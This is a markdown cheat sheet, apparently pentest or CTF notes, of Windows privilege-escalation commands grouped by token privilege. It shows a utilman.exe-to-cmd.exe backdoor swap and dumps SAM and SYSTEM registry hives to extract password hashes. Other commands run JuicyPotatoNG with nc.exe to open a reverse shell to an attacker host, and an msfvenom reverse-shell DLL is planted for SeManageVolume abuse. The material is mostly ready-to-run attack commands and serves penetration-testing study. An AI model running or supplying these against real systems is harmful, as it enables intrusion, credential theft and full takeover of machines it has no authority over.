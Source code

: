 ### SeRestorePrivilege

* [EnableSeRestorePrivilege.ps1](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)

```bash
# Enables the privilege
Import-Module .\EnableSeRestorePrivilege.ps1

# Go to system32 directory
cd C:\Windows\System32

# Change the following...
mv utilman.exe utilman.old
mv cmd.exe utilman.exe

# RDP to machine
rdesktop "[IP]"
```
### SeBackupPrivilege

```bash
mkdir temp
reg save hklm\sam c:\temp\sam
reg save hklm\system c:\temp\system
pypykatz registry --sam sam system
```
### SeImpoersonatePrivilege & SeAssignPrimaryToken

* [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1)

```powershell
# JuicyPotatoNG
.\JuicyPotatoNG -p c:\windows\system32\cmd.exe -a "/c c:\JavaTemp\nc.exe -e cmd.exe [LHOST] [LPORT]" -t *

# PrintSpoofer
.\PrintSpoofer64.exe -i -c powershell

# SweetPotato
.\RottenPotato.exe -p cmd.exe -e EfsRpc
```
### SeManageVolume

* [SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

```bash
# Location: /ctf/tools/privilege-escalation
.\SeManageVolumeExploit.exe

# Payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f dll -o Printconfig.dll

# Transfer `Printconfig.dll` onto machine and execute the following commands
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
